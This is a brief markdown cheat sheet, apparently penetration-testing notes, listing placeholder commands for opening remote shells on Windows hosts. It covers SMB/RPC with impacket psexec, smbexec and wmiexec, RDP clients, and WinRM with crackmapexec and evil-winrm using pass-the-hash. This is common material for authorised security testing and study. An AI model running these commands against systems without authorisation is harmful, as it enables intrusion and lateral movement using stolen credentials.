 # Remote Shell
## SMB & RPC: 445, 135
`impacket-psexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-smbexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-wmiexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
winexe

## RDP: 3389
`impacket-rdp_check <DOMAIN>/<USER>:<PASS>@<IP>` check
rdesktop 
xfreerdp
remmina

## WinRM: 5985, 5986
`crackmapexec winrm <IP> -u <USER> -p <PASS>` check
`evil-winrm -i <IP> -u <USER> -p <PASS>` (PtH)